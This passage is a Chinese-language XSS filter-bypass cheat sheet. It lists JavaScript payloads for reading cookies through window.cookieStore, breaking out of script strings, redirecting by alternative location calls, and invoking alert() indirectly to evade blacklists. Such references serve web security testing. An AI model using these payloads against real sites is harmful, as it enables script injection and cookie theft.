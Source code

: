 ## 绕过document.cookie黑名单

这是另一种在Chrome、Edge和Opera中访问Cookie的方式。将`COOKIE NAME`替换为您想要的Cookie。如果您需要，还可以调查`getAll()`方法。

```js
window.cookieStore.get('COOKIE NAME').then((cookieValue)=>{alert(cookieValue.value);});
```

## 使用字符串内的JavaScript的绕过

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

## 使用替代方式重定向的绕过

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```

## 使用替代方式执行警报的绕过

来自[@brutelogic](https://twitter.com/brutelogic/status/965642032424407040)的推文。

```javascript
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```

来自[@theMiddle](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/) - 使用全局变量

`Object.keys()` 方法返回给定对象自身属性名的数组，顺序与普通循环得到的一致。这意味着我们可以通过使用其**索引数字而不是函数名称**来访问任何JavaScript函数。

```javascript
c=0; for(i in self) { if(i == "alert") { console.log(c); } c++; }
// 5
```
